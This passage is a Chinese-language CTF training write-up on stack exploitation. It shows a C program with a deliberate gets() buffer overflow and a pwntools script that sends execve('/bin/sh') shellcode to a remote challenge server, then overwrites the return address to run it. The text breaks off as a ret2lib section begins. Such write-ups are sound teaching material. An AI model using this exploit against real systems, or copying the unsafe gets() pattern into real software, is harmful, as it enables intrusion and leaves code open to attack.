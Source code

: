 ```yaml
---
title: Basic Pwn train (stack)
date: 2018-04-10 15:17:38
tags: pwn
layout: post
---
```

Basic Pwn train (stack)




# Basic Pwn train (stack)
源码和payload可以在我的git找到：

https://github.com/B3t4M3Ee/banana/tree/master/Pwn

## ret2sc
```c
#include <stdio.h>
char name[50];
int main(){
    setvbuf(stdout,0,2,0);
    printf("Name:");
    read(0,name,50);
    char buf[20];
    printf("Try your best:");
    gets(buf);
    return ;
}
```
checksec pwn

发现没有开任何保护

我们可以看到有两次输入

第二次输入有个buffer overflow

所以我们可以



利用第一次输入写入shellcode

第二次覆盖返回地址返回到第一次的shellcode


可以构造exploit：

```python    
from pwn import *
p=remote('121.42.189.18',10003)
offset=32
shellcode='\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'    
log.info(len(shellcode))
payload=shellcode
p.recv()
p.sendline(payload)
p.recv()
p.sendline('A'*offset+p32(0x804A060))
p.interactive();
```
## ret2lib
```c
#include <stdio.h>
```